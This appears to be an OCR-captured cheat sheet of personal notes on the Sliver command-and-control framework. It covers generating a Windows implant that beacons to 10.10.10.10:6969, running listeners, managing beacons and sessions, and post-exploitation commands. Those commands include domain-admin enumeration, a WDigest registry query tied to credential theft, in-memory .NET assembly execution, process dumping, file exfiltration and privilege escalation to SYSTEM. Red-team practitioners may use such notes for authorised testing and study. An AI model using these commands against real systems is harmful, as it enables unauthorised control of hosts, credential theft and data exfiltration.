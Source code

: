 ```go
// Beacons are asychronous - more opsec way they sleep and check 
generate beacon --mtls 10.10.10.10:6969 --arch amd64 --os windows --save /path/to/directory
// Regenerate
regenerate
// listeners
// Do not accept interfaces as arguments like metasploit
mtls -L <lhost> -l <lport> 
wg
https
http
dns // Requires DNS configuration! 
// Jobs to view and manage listners
jobs
jobs -k <job number>
jobs -K <kill all jobs> // -F for force
// Beacons
// Show all beacons, information and checkin time
beacons 
// Remove beacons that missed their last checking by 1 hour or more 
beacons prune  
// Show all bbeacno tasks - task are FIFO
tasks
// Retrieve deatils of a specific task
tasks fetch <ID> 
// Drop down to select with arrow keys
use 
// Interact with sessions
use <id >// Create an interactive sessions
// Inrteract with a session
session -i $id
// CReate interactive session from beacon and wait
interactive
// Examples of execution
execute -o <command>
execute -o icacls "c:\Windows\Temp"
execute -o whoami /all
execute -o net localgroup "administrators"
execute -o net group "domain admins" /domain
// reg query the WDIGEST
execute -o reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential
// Execute powershell to run a powershell script
execute -o powershell "c:\Windows\Temp\BadScript.ps1"
// Execute assemble 
// runs any .NET assembly!
// as a executable or DLL in memory either in sacrificial or the implant process
execute-assembly -s -i $localpath/Tool.exe -- -$flagsAndArgsOfTool



// Process and dumping processes
ps 
procdump -p <PID>
// Upload and Download - use absolute path
upload
// Download to the directory executed sliver-server/client
// BEWARE .Directory in Linux will not recursively down its contents
// tar.gz recursively on a directory by default <feels good> 
download
// extract after downloading
// tar -xf $exfil

// With Administrative and adble to get SeDebugPrivilege - by default uses spool.svc to getsystem 
```
